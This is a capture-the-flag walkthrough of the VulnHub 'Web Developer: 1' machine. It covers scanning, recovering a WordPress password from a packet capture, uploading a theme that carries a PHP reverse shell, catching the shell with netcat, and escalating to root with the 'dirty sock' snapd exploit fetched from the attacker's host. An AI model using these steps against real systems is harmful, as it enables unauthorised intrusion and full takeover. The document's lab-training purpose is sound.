





### target:			Web Developer: 1 by Fred Wemeijer

### hosted by:			vulnhub.com 

### virtualization software: 	virtualbox 

### testing platform:		kali linux 2017 

### walkthrough by:		worzel_gummidge 


**nmap** is used to find the target and perform a port scan of the target.

```bash
nmap 192.168.56.101 -T5 -A -sC -p- -n
```


2 open ports are discovered: *tcp22(ssh)* and *tcp80(http)*.

the attacker runs a **dirb** scan on *tcp80*.

```bash
dirb http://192.168.56.101
```


**dirb** locates a directory named ipdata. in this directory the attacker finds a file named analyze.cap. the file contains captured network packets. using **wireshark** the attacker is able to analyze the file and finds user webdeveloper's url encoded password.




the attacker is able to login to the Wordpress dashboard as user webdeveloper. to create a new Wordpress theme, the attacker zips together style.css, index.php, comments.php, header.php and screenshot.png. the comments.ph file is left empty. the index.php file has the following code:

```php
<?php get_header(); ?>
```

style.css:

```css
/*
	Theme Name:		Pwn
	Description:		Pawnage
	Author:			PwnMaster
	Version:		1.0
	License:		Pwn's
	License URI:		Pwn's
	Tags:			shell
	Text Domain:		pwn-theme
*/
```

the attacker copies /usr/share/webshells/php/php-reverse-shell.php to header.php and edits the file to point at his attacking machine and port:

```bash
cat /usr/share/webshells/php/php-reverse-shell.php > header.php
```

the attacker uploads the zip file containing all the files mentioned before as a "new theme" from the dashboard and sets up a reverse handler is set using **netcat**

```bash
nc -lvnp 1234
```




to trigger the exploit, the attacker clicks on the "live preview" button of the new theme.




while exploring the file system, the attacker finds a snap directory. to get the version of snapd running on the system, the attacker enters the command:

```bash
snap --version
```

a quick search on searchsploits shows that the running version may be vulnerable to a privilege escalation attack. the attacker then serves up the exploit using python3 and downloads it on the victim machine using **wget**.

```bash
python3 -m http.server
```

```bash
wget http://192.168.56.102:8000/46362.py
```


to execute the "dirty socks" exploit the attacker runs the python script and then uses the new credentials to login as the dirty_socks user.



```bash
su dirty_socks
```

to read the flag

```bash
sudo cat /root/flag.txt
```



